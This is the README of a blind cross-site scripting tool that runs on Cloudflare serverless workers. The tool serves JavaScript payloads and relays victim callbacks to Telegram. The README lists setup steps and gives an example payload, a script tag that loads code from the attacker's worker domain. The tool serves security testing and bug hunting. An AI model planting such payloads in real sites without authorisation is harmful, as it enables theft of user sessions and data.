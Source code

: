 # XSS Flare
XSS hunter ported on cloudflare serverless workers ! This script serves JS payloads from cloudflare workers and redirects the incoming callbacks to telegram. (Telegram bot token is not exposed to victims)

<p align="center">
  <img src="https://github.com/EgeBalci/xss-flare/raw/master/img/screenshot.png">
</p>

It generates blind XSS reports that looks like this.

![REPORT](https://github.com/EgeBalci/xss-flare/raw/master/img/screenshot_1.png)

## Installation
1. Login to your cloudflare account and create a serverless worker.
2. Replace the `BotToken` and `ChatID` values inside the `index.js` file.
3. Paste the `index.js` contents into the cloudflare worker script editor.
4. Click `Save and Deploy`. All done !

Here is an example blind XSS payload.
```
<script src="https://[your.workername].workers.dev"></script>
```